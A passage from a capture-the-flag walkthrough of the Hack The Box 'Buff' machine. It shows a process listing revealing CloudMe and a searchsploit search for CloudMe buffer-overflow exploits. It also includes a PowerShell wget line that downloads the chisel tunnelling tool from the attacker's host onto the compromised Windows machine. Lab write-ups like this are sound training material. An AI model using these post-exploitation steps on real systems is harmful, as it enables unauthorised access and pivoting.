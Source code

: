 I searched for the process:

```bash
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    430      24    19336       9560              7012   1 ApplicationFrameHost
    161      10     1932       2156              5940   1 browser_broker
    198      15    24328      27256              5084   0 CloudMe
---snip---
```

I search for an exploit of this version of CloudMe:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/buff]
└─$  searchsploit cloudme
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                         | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                               | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                        | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploit)                 | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                                    | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                       | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                                        | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                     | windows_x86-64/remote/44784.py
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

To use these exploits, I need to redirect the port (for which I will use chisel: [`https://github.com/jpillora/chisel/releases`](https://github.com/jpillora/chisel/releases)):

```bash
powershell wget http://10.10.16.6/chisel_1.7.6_windows_amd64.exe -OutFile chisel.exe

dir
dir

    Directory: C:\Users\shaun\Downloads

Mode                LastWriteTime         Length Name
---         ------ ----
-a----       19/09/2021     18:59        8548352 chisel.exe
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe
```
